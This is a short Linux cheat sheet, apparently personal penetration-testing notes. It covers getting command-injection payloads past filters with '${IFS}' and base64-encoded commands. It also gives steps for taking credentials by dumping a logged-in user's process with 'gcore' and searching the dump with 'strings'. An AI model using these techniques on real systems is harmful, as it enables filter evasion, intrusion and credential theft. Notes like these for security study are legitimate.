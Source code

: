 # Linux

* `${IFS}` in place ofm space if you're having trouble with spaces - works in bash only
* can also pipe a command to base64 (make sure the command you build also pipes itself to base64 -d)

**lateral movement**

* find process where someone might be logged in `ps -A`
* `gcore $PID`
* `strings core.$PID`
* read creds
